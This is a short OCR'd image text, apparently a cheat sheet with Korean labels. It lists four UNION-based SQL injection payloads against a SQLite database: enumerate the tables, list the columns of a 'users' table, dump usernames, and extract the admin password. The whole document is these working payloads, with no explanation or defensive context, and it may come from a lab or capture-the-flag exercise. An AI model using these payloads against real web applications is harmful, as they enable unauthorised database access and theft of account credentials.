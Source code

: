 테이블 목록	' UNION SELECT name FROM sqlite_master WHERE type='table'-- -
users 컬럼명	' UNION SELECT name FROM pragma_table_info('users')-- -
모든 계정:비번	' UNION SELECT username FROM users-- -
admin 계정만	' UNION SELECT password FROM users WHERE username='admin'-- -
